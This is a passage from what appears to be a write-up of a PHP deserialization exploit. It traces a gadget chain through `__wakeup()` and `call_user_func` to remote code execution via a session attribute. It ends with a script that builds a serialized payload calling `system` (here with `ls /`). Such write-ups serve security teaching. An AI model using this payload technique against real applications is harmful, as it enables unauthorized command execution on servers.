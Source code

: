 ```php
}
```

In the ControllerCreator code, we notice the presence of the magic function `__wakeup()`, this method is called when an object corresponding to ControllerCreator is recreated. In this function, we notice that it will initialize variables if they are not already initialized, allowing to call the `info` function of ApplicationLogger.

In the ApplicationLogger class, only the `__construct()` method is interesting, indeed, at the end of it, we can see that the application checks that the called method is defined, otherwise, the call to the `call_user_func` function will be different. This method allows you to call a method via its name, taking as a second parameter the arguments (in an array) that you want to pass to it.

One last thing to know before moving on to the final exploit, sessions in PHP are serialized and are deserialized as soon as we try to access a property of them, for example, in the application, when a user is logged in, his session object, on the file system, looks like this:

```
email|s:12:"test@test.fr"
```

The final goal of the exploit will be to play on this deserialization to be able to pass in the code of the `__wakeup()` function allowing to obtain our RCE.

There is a last problem, we have to find, in the application, a session attribute that we can overwrite without breaking the application allowing us to inject our payload in it.

So we're going to look again at the application code. In the `download.php` file which allows to download files for authenticated users, we notice the presence of this code :

```php
<?php
if($res_user[0][0] === $res[0][1])
{
    $lastDl = new ControllerDownload($res[0][0]);
    $_SESSION["lastDownloadFile"] = $lastDl;
    downloadFile($res[0][0],$_SESSION["email"]);
}
```

Here, we see that the application will save the last file downloaded by the user thanks to another class `ControllerDownload`, and store it in his session. The main purpose of this feature is to not make a user download the same file twice, but for us, this is our entry point for our deserialization exploit.

To create our serialized payload, we can create a php script to do so:

```php
<?php

class ControllerCreator 
{
    public $page = "";
    public $log_file = "/var/security/security.log";
    public $log_func = "system";
    public $msg = "ls /";
}

$c = new ControllerCreator();
print_r(serialize($c));

//O:17:"ControllerCreator":4:{s:4:"page";s:0:"";s:8:"log_file";s:26:"/var/security/security.log";s:8:"log_func";s:6:"system";s:3:"msg";s:4:"ls /";}
```

